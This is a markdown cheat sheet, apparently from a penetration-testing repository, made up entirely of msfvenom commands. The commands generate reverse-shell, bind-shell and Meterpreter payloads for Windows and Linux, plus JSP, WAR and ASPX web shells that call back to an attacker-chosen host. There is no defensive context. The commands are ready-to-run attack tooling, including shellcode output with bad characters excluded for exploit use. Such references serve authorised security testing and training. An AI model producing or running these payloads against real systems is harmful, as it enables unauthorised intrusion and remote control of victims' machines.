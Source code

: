 # MSFVENOM
## Windows Binary (.exe)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

##### Output in Hex, C Style, Exclude bad chars, Exitfunction thread
```bash
msfvenom -p windows/shell_bind_tcp LHOST=$LHOST LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

### 64 Bit (x64)

#### Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

#### Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

## Linux Binary (.elf)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=$LHOST -f elf > bind_shell.elf
```

#### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=$LHOST -f elf > rev_shell.elf
```

# Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

## As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

# Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```
